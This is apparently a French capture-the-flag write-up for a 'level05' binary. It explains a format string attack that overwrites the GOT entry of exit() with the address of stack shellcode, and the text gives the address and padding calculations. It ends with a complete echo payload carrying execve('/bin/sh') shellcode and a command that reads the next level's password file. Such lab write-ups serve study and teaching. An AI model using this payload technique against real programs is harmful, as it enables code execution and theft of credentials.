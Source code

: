 On a acces a un executable qui fgets 100 octets sur l'entree standard dans un
buffer stack, puis qui les interprete comme une chaine de caracteres pour passer
toutes les majuscules en minuscules. L'executable passe ensuite le buffer a un
printf, avant d'appeler exit().

Notre attaque seras donc une format string attack pour changer l'entree GOT de
exit(), vers un shellcode. Pour eviter que l'instruction 'push eax' de notre
shellcode, qui termine la chaine de caractere "//bin/sh" dans la stack, et dont
l'opcode est 0x50, ne soit transformee en 0x70 par le passage en minuscules (car
0x50 correspond a 'P'), on passe un octet 0 apres notre chaine d'attaque de
format, juste avant le shellcode.

Avec un objdump -R, on trouve l'addresse de l'entree GOT de exit: 0x080497e0

On va la passer 2 fois dans le buffer, pour ecrire les octets 2 par 2, car les
addresses stack commencent par 0xffff.... et ecrire en 1 fois prendrait 4
milliards de caracteres (litteralement).

Pour trouver l'addresse de notre shellcode en memoire, on va deja devoir
trouver la difference entre les addresses gdb et celles de l'execution. On passe
des %p au printf pour lui faire afficher la memoire, et on cherche des addresses
stack a comparer entre gdb et l'execution normale.

	$ echo "%p %p %p %p %p %p %p %p %p %p" > /tmp/in
	$ cat /tmp/in | ./level05
	$ gdb level05
	(gdb) r < /tmp/in

En comparant les addresses on trouve que la difference entre les addresses gdb
et exec normale est de 32 octets de plus pour l'execution normale. On trouve
l'addresse du buffer dans gdb: 0xffffd698
On ajoute 0x20 pour obtenir l'addresse du buffer en execution normale: 0xffffd6b8

On trouve avec des %p que l'argument positionnel printf pour tomber dans le
buffer est de 10 (et 11 pour tomber 4 octets dans le buffer).
Notre chaine de format string attack seras donc:
[addresse GOT][addresse GOT + 4][nombre des 2 1ers octets addr shellcode]%10$n↙
[nombre des 2 derniers octets addr shellcode - octets deja affiches]%11$n

- les addresses font 4 octets chacunes (8 octets),
- le padding se fait avec "%12345x" les 2 fois, soit 2*7 octets (14 octets)
- les %n sont "%10$n" et "%11$n" soit 2*5 octets (10 octets)
- l'octet nul pour separer le shellcode de la chaine d'attaque ajoute 1 octet

Notre chaine d'attaque fait donc au total 33 octets. On ajoute 33 a l'addresse
du buffer en execution normale pour obtenir l'addresse de notre shellcode en
memoire: 0xffffd6d9

On peux maintenant trouver le nombre d'octets a mettre dans le padding pour
ecrire en memoire precisement 0xffffd6d9:
-1ere moitie: On enleve 8 pour les 8 octets des 2 addresses
0xd6d9 - 0x8 = 54993 en decimal
-2eme moitie: On enleve le nombre d'octets deja affiches (0xd6d9)
0xffff - 0xd6d9 = 10534 en decimal

Notre chaine d'attaque complete seras donc:  
> [chaine pour la GOT override (ligne 37-38)][octet 0][shellcode][padding pour satisfaire le fgets]

	$ [copie colle du contenu de fill_script_command]
	$ echo -en "\xe0\x97\x04\x08\xe2\x97\x04\x08%54993x%10\$n%10534x%11\$n\x00\x31\xc0\x31\xc9\x31\xd2\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\xb0\x0b\xcd\x80"$(/tmp/fill 50) > /tmp/in
	$ (cat /tmp/in; echo "cat /home/users/level06/.pass") | ./level05
